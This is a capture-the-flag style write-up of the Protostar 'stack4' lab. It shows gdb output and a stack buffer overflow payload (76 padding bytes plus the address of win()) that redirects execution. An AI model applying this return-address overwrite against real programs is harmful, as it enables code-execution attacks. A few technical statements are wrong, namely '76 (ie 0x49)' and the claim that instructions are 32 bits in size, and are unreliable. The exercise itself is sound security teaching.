 Moving on to the next instruction, we execute `ret`. This pops the stack into the `eip`. The top of the stack is address *0xbffff7bc*, and contains the value *0x68686868*. `eip` is now given the value *0x68686868*. Because instructions are 32bits in size, the next instruction that is supposed to be executed is at location *0x6868686c*. Whoops! That memory address is not accessible (hence the *segmentation fault*).
```
(gdb) ni
Cannot access memory at address 0x6868686c
(gdb) p/x $eip
$1 = 0x68686868
```

## Winning strategy and input
Using stackoverflow, we can redirect program execution. So our goal in thid program is to overwrite the ret address with the address of `<win>`, and once the `<main>` function returns, it “returns” to `<win>`.

The address of `<win>`, *0x080483f4*, is at the end of the string literal (see below). We overflow the stack with 76 (ie 0x49) 'a' characters.
```
\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\xf4\x83\x04\x08
```
Refer to the stack frame to see why I had 76 'a' characters instead of 80 (naturally people assume it should be 80 because of the instruction `804840e:  sub  esp,0x50 `). Counting by hand may help.

Running the input in the actual program, and we achieve our goal.
```
user@protostar:/opt/protostar/bin$ cat ~/stack4input | ./stack4
code flow successfully changed
Segmentation fault
user@protostar:/opt/protostar/bin$ 
```
END
